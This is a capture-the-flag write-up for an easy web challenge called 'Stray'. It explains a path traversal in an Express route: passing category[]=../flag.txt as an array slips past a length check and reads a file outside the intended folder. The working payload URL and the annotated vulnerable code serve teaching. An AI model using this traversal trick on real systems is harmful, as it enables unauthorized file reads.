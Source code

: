 ### Challenge
Name: Stray  
Category: web  
Difficulty: easy  

### Solution
Enter the URL `https://stray.chall.pwnoh.io/cat?category[]=../flag.txt`

### Explanation
Here we exploit the poor type checking in app.js. On line 13 of app.js, the type of category is `string | QueryString.ParsedQs | string[] | QueryString.ParsedQs[] | undefined`. Because the only check is the length of category, we are able to [pass an array](https://stackoverflow.com/questions/6243051/how-to-pass-an-array-within-a-query-string) to the API. JavaScript will also implicitly cast an [array to a string](https://stackoverflow.com/questions/7124884/why-is-1-2-3-4-1-23-4-in-javascript#:~:text=JavaScript's%20%2B%20operator%20has%20two%20purposes,strings%20and%20then%20joining%20them.), omitting brackets.

```javascript
app.get("/cat", (req, res) => {
  let { category } = req.query; // ["../flag.txt"]

  console.log(category);

  if (category.length == 1) { // true, the array has length one
    const filepath = path.resolve("./names/" + category); // implicit cast, so "./names/../flag.txt"
    const lines = fs.readFileSync(filepath, "utf-8").split("\n"); // Reads flags one directory up from names, so ./flag.txt
    const name = lines[Math.floor(Math.random() * lines.length)];

    res.status(200);
    res.send({ name }); // We receive the flag as a response
    return;
  }

  res.status(500);
  res.send({ error: "Unable to generate cat name" });
});
```